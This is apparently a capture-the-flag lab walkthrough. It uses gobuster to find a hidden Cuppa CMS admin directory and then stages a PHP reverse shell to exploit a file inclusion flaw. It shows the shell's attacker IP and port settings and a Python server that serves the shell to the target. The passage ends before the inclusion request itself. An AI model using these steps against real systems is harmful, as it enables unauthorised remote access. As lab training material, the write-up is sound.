 This file contains a hidden subdirectory `/45kra24zxs28v3yd` that did not show up in the previous gobuster scan.  
Visit the `http://10.10.114.155/45kra24zxs28v3yd/` page.  
At first sight looks like a dead end, with just an image and some static content.  
Run another gobuster scan, this time starting from the `/45kra24zxs28v3yd` directory.

```bash
gobuster dir -u http://10.10.114.155/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.114.155/45kra24zxs28v3yd/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/administrator        (Status: 301) [Size: 339] [--> http://10.10.114.155/45kra24zxs28v3yd/administrator/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

You found another subdirectory: `/45kra24zxs28v3yd/administrator`.  
Visit it and you will find out that hosts a Cuppa CMS service.  
It takes only a few minutes of googling to find out that Cuppa CMS is vulnerable to file inclusion, see <https://www.exploit-db.com/exploits/25971> for more details.

You will now proceed to exploit the vulnerability by uploading a web shell.  
The attack box come equipped with a php shell at `/usr/share/webshells/php/`.  
Change the IP with the IP of your own attack box as shown below.

```bash
cd /usr/share/webshells/php/
cat php-reverse-shell.php
....
$ip = '10.10.237.245';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
.....
```

You can leave the port number as is.  
Next you need to make the shell file available to the target: run a python http server in the same folder where the shell file is located.

```bash
root@ip-10-10-237-245:/usr/share/webshells/php# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

